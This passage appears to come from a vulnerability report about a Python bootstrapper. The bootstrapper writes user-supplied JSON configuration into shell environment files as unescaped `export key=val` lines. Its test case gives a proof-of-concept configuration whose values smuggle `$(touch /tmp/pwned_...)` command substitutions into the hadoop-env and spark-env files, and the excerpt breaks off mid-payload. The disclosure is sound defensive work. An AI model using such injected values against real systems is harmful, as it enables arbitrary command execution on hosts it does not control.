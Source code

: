 ```python
            logging.info("reading user configuration from {}".format(str(path)))
            with open(str(path), "r") as config:
                user_configuration_list_or_dict = json.load(config) # User provided JSON is loaded
                logging.info(
                    "User configuration list or dict: {} , type {}".format(
                        user_configuration_list_or_dict,
                        type(user_configuration_list_or_dict),
                    )
                )
                user_confs = self.deserialize_user_configuration(user_configuration_list_or_dict)
                if isinstance(user_confs, Configuration):
                    _write_conf(user_confs) # Write configuration
                elif isinstance(user_confs, list):
                    for user_conf in user_confs:
                        _write_conf(user_conf) # Write configuration
                else:
                    raise ValueError(
                        "Could not determine type of user configuration {}. Please consult {} for more information.".format(
                            user_configuration_list_or_dict, Bootstrapper.EMR_CONFIGURE_APPS_URL
                        )
                    )
        else:
            logging.info("No user input configuration file exists, skipping user configuration")
...
```

The code snippet in `env_serializer` directly concatenates `export {key}={val}` without any escaping or sanitization of `val`. When `write_user_configuration` processes the user-provided JSON configuration, it uses this vulnerable serializer to write to environment files.

* Security Test Case:

1. Create a malicious `configuration.json` file with the following content:
   ```json
   [
     {
       "Classification": "hadoop-env",
       "Properties": {},
       "Configurations": [
         {
           "Classification": "export",
           "Properties": {
             "MALICIOUS_COMMAND": "$(touch /tmp/pwned_hadoop_env)"
           }
         }
       ]
     },
     {
       "Classification": "spark-env",
       "Properties": {},
       "Configurations": [
         {
           "Classification": "export",
           "Properties": {
             "MALICIOUS_COMMAND": "$(touch /tmp/pwned_spark_env)"
           }
         }
       ]
     },
     {
       "Classification": "yarn-env",
       "Properties": {},
       "Configurations": [
   ```